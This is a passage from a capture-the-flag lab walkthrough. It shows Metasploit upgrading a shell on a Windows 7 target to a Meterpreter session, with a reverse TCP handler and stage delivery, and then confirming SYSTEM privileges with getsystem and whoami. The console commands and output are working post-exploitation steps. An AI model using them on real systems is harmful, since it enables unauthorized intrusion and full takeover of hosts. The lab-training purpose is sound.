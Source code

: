 #### #4 Run! If this doesn't work, try completing the exploit from the previous task once more.
Hint: `Command: run (or exploit)`
{: .notice--info}

```
msf5 post(multi/manage/shell_to_meterpreter) > set session 1
session => 1
msf5 post(multi/manage/shell_to_meterpreter) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.9.19.3:4433
msf5 post(multi/manage/shell_to_meterpreter) > 
[*] Sending stage (176195 bytes) to 10.10.59.111
[*] Meterpreter session 2 opened (10.9.19.3:4433 -> 10.10.59.111:49197) at 2020-06-14 14:49:22 +0700
[*] Stopping exploit/multi/handler
sessions -l

Active sessions
===============

  Id  Name  Type                     Information                           Connection
  --  ----  ----                     -----------                           ----------
  1         shell x64/windows        Microsoft Windows [Version 6.1.7601]  10.9.19.3:4444 -> 10.10.59.111:49169 (10.10.59.111)
  2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ JON-PC          10.9.19.3:4433 -> 10.10.59.111:49197 (10.10.59.111)
```

#### #5 Once the meterpreter shell conversion completes, select that session for use.
Hint: `sessions SESSION_NUMBER`
{: .notice--info}

```
msf5 post(multi/manage/shell_to_meterpreter) > sessions -i 2
[*] Starting interaction with 2...

meterpreter >
```

#### #6 Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 

```
meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
meterpreter > getsystem 
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > 
meterpreter > shell
Process 908 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```